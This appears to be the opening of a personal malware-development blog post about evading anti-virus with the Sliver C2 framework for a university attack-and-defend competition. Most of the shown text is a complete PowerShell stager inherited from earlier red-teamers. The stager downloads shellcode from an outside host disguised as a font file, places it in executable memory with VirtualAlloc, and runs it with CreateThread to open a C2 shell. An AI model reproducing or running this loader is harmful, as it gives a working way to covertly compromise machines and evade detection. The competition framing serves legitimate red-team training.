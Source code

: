 ```yaml
---
date: 2025-01-06
title: "Evading Anti-Virus With Sliver C2 AES Encryption and Compression Process Injection - Malware Development #1"
tags:
  - maldev
  - sliver
---
```


# Background

This upcoming spring semester me and a few team members are competing in the Information Security Talent Search (ISTS) Competition hosted by the Rochester Institute of Technology. It is a three-day attack and defend competition, where teams compete in a King of the Hill style challenge by hacking and defending against other teams to keep their critical services such as HTTP, SMTP, and SNMP up for points.

The competition rules strictly prohibit the use of any anti-virus applications, but as a red-teamer, that doesn't mean you start being noisy and dropping files to disk. At the end of the day, there's some poor blue-team log bunny on the other end of the terminal picking up on the signatures and heuristics you are creating, itching to boot you off their system.

I didn't participate in ISTS last year, but the previous red-teamers left me a few scripts, one of which was a local process injection to gain a shell through a stage-listener provided by the C2 framework, sliver. (See source below) \[Update: I have learned this script was created by Dominic Breuker in a [blog post](https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/)] 

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
[DllImport("kernel32")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress,
    uint dwSize,
    uint flAllocationType,
    uint flProtect);
[DllImport("kernel32", CharSet=CharSet.Ansi)]
public static extern IntPtr CreateThread(
    IntPtr lpThreadAttributes,
    uint dwStackSize,
    IntPtr lpStartAddress,
    IntPtr lpParameter,
    uint dwCreationFlags,
    IntPtr lpThreadId);
[DllImport("kernel32.dll", SetLastError=true)]
public static extern UInt32 WaitForSingleObject(
    IntPtr hHandle,
    UInt32 dwMilliseconds);
}
"@
Add-Type $Win32

$shellcode = (New-Object System.Net.WebCLient).DownloadData("http://login.magic-box.dev:8080/balls.woff")
if ($shellcode -eq $null) {Exit};
$size = $shellcode.Length

[IntPtr]$addr = [Win32]::VirtualAlloc(0,$size,0x1000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $addr, $size)
$thandle=[Win32]::CreateThread(0,0,$addr,0,0,0);
[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```